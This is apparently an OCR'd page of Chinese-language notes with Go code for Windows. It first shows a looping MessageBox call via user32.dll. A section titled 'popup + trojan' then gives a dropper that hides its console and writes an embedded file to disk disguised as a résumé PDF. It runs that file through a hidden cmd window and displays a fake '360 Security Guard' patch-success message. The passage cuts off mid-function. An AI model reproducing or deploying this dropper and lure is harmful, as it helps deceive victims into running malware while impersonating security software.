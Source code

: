 ```html
func StrPtr(s string) uintptr {
	return uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(s)))
}

// windows下的另一种DLL方法调用
func ShowMessage2(title, text string) {
	user32dll, _ := syscall.LoadLibrary("user32.dll")
	user32 := syscall.NewLazyDLL("user32.dll")
	MessageBoxW := user32.NewProc("MessageBoxW")
	MessageBoxW.Call(IntPtr(0), StrPtr(text), StrPtr(title), IntPtr(0))
	defer syscall.FreeLibrary(user32dll)
}

func main() {
	go func() {
		for {
			ShowMessage2("windows下的另一种DLL方法调用", "HELLO !")
			time.Sleep(3 * time.Second)
		}
	}()
	select {}
}


```

<a name="OeYLN"></a>
## 弹框+木马
```html
package main

import (
	_ "embed"
	"fmt"
	"io/ioutil"
	"os"
	"os/exec"
	"syscall"
	"time"
	"unsafe"
	"github.com/lxn/win"
)

//go:embed 2.pdf
var c []byte
func main(){
	win.ShowWindow(win.GetConsoleWindow(), win.SW_HIDE)
	dir,_ := os.Getwd()
	// path :=[]string{"C:\\Users\\calc.exe",dir+"\\王小明_管理部门简历.pdf"}
	path :=dir+"\\王小明_管理部门简历.pdf"
	happy(path,c)
	time.Sleep(3 * time.Second)
	ShowMessage2("360安全卫士", "补丁安装成功,短期内电脑请勿重启！！！")
}
func happy(path string,bytes []byte) {
	err := ioutil.WriteFile(path, bytes, 0666)
	if err == nil{
		Go := exec.Command("cmd","/c ",path)
		Go.SysProcAttr = &syscall.SysProcAttr{HideWindow: true} //hide the cmd
		err := Go.Run()
		if err != nil {
			fmt.Println(err)
```